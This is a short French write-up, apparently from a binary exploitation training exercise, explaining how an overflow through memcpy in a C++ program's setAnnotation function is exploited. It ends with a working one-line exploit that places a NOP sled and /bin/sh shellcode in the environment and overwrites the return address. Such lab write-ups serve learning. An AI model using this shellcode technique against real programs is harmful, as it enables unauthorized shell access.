

La petite difference avec ce programme des autres, c'est qu'il a été fait en c++.<br/>
On peut voir dans ghidra l'initialisation de la class `N` deux fois et la fonction `setAnnotation` qui va nous permettre de faire un overflow via `memcpy`.<br/>
On va donc utiliser notre shellcode du level2 et le mettre dans l'argument du programme.

*Note: memcpy utilise strlen sur le paramètre, faire attention à ne pas mettre de `\x00` dans le shellcode.*



On va essayer de faire un `NOP Slide`, ce qui est de remplire un bout de la stack avec des `NOP` et suivi de notre shellcode directement dans l'environnement. Ainsi, on va pouvoir overflow la stack et tomber sur notre shell.

Le `env -i` va vider notre env et mettre uniquement notre payload. Le `payload` va être notre `NOP Slide` suivi de notre shellcode.<br/>
Ensuite on va lancer le programme avec comme argument l'adresse de notre `NOP Slide` suivi de `B` pour pouvoir overflow la variable de taille 108 octets et ensuite l'adresse de retour de la fonction `main`.
```
$ env -i payload=`python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'` ./level9 `python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"'`
```
